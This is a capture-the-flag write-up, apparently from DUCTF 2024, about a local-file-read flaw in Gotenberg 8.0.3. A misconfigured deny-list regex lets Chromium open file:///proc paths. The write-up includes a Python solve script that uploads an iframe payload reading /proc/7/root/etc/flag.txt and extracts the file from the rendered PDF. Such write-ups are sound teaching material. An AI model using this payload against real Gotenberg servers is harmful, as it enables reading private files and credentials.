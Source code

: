 ```yaml
---
ai_date: 2025-04-27 05:15:36
ai_summary: Exploited misconfigured regex to access /etc/flag.txt via `/proc` path traversal in Chromium Docker image
ai_tags:
  - lfi
  - proc-tmp
  - path-traversal
created: 2024-07-05T20:39
description: smh bad regex
points: 129
solves: 173
title: hah_got_em
updated: 2025-07-14T09:46
---
```


## Analysis
The docker image is fixed at `gotenbergv8.0.3`, I wonder why...
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720298973/2024/07/ec4bad9f49946fcd2204722dbbd5564c.png)

Turns out there's a security update right after.

After looking through the patch, I found the following lines that were removed.

```go
CHROMIUM_DENY_LIST="^file:///[^tmp].*"

if !b.arguments.allowList.MatchString(url) {
    return fmt.Errorf("'%s' does not match the expression from the allowed list: %w", url, ErrUrlNotAuthorized)
}

if b.arguments.denyList.String() != "" && b.arguments.denyList.MatchString(url) {
    return fmt.Errorf("'%s' matches the expression from the denied list: %w", url, ErrUrlNotAuthorized)
}
```

It appears that the regex was misconfigured and would allow any path that starts with either `t` `m` or `p`.
## Attack
To access `/etc/flag.txt` with a url starting with any character in `[tmp]`, the first thing that came to mind was `proc`.

So I used the docker shell and looked for flag.txt.

```sh
ls proc/*/*/*/* | grep flag.txt
```

```txt
...
proc/26/cwd/etc/flag.txt
proc/26/cwd/tmp/flag.txt
proc/26/root/etc/flag.txt
proc/26/root/tmp/flag.txt
proc/66/root/etc/flag.txt
proc/66/root/tmp/flag.txt
proc/7/root/etc/flag.txt
proc/7/root/tmp/flag.txt
proc/70/root/etc/flag.txt
proc/70/root/tmp/flag.txt
proc/71/root/etc/flag.txt
...
```

Wow, there's a lot of them, so I picked `pid=7` because I liked the number.

## Solve Script

```python
import requests
import io
import fitz
file_content = """
<iframe src="file:///proc/7/root/etc/flag.txt"></iframe>
"""
file_path = "index.html"

payload = io.BytesIO(file_content.encode('utf-8'))

url = "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/markdown"

files = {"html": (file_path, payload), "md": ("dummy.md", payload)}
response = requests.post(url, files=files)
if 'application/pdf' not in response.headers['Content-Type']:
    print(response.text)
    exit()
print(response.status_code)
pdf_bytes = io.BytesIO(response.content)
pdf_document = fitz.open(stream=pdf_bytes, filetype="pdf")
all_text = ""
for page_num in range(len(pdf_document)):
    page = pdf_document.load_page(page_num)
    all_text += page.get_text()
print(all_text)
```